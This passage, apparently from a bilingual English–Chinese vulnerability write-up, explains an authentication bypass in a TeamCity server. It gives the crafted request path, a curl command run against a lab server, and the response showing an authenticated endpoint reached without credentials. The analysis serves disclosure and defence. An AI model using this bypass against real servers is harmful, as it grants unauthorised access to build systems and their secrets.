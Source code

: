 To leverage this vulnerability to successfully call the authenticated endpoint `/app/rest/server`, an unauthenticated attacker must satisfy the following three requirements during an HTTP(S) request:  
要利用此漏洞成功调用已验证的端点 `/app/rest/server` ，未经验证的攻击者必须在 HTTP（S）请求期间满足以下三个要求：

-   Request an unauthenticated resource that generates a 404 response. This can be achieved by requesting a non existent resource, e.g.:  
    请求生成 404 响应的未经身份验证的资源。这可以通过请求不存在的资源来实现，例如：
    -   `/hax`
-   Pass an HTTP query parameter named jsp containing the value of an authenticated URI path. This can be achieved by appending an HTTP query string, e.g.:  
    传递一个名为 jsp 的 HTTP 查询参数，其中包含一个经过身份验证的 URI 路径的值。这可以通过附加一个 HTTP 查询字符串来实现，例如：
    -   `?jsp=/app/rest/server`
-   Ensure the arbitrary URI path ends with .jsp. This can be achieved by appending an HTTP path parameter segment, e.g.:  
    确保任意 URI 路径以。jsp 结尾。这可以通过附加 HTTP 路径参数段来实现，例如：
    -   `;.jsp`

Combining the above requirements, the attacker’s URI path becomes:  
结合上述要求，攻击者的 URI 路径变为：

```bash
/hax?jsp=/app/rest/server;.jsp
```

By using the authentication bypass vulnerability, we can successfully call this authenticated endpoint with no authentication.  
通过使用身份验证绕过漏洞，我们可以在不进行身份验证的情况下成功调用此已验证端点。

```xml
C:\Users\sfewer>curl -ik http://172.29.228.65:8111/hax?jsp=/app/rest/server;.jsp
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
Content-Type: application/xml;charset=ISO-8859-1
Content-Language: en-IE
Content-Length: 794
Date: Wed, 14 Feb 2024 17:24:59 GMT

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><server version="2023.11.3 (build 147512)" versionMajor="2023" versionMinor="11" startTime="20240212T021131-0800" currentTime="20240214T092459-0800" buildNumber="147512" buildDate="20240129T000000-0800" internalId="cfb27466-d6d6-4bc8-a398-8b777182d653" role="main_node" webUrl="http://localhost:8111" artifactsUrl=""><projects href="/app/rest/projects"/><vcsRoots href="/app/rest/vcs-roots"/><builds href="/app/rest/builds"/><users href="/app/rest/users"/><userGroups href="/app/rest/userGroups"/><agents href="/app/rest/agents"/><buildQueue href="/app/rest/buildQueue"/><agentPools href="/app/rest/agentPools"/><investigations href="/app/rest/investigations"/><mutes href="/app/rest/mutes"/><nodes href="/app/rest/server/nodes"/></server>
```

If we attach a debugger, we can see the call to `ModelAndView.setViewName` occurring for the authenticated endpoint specified by the attacker in the `jspFromRequest` variable.  
如果我们附加一个调试器，我们可以看到对 `ModelAndView.setViewName` 的调用发生在攻击者在 `jspFromRequest` 变量中指定的已验证端点上。
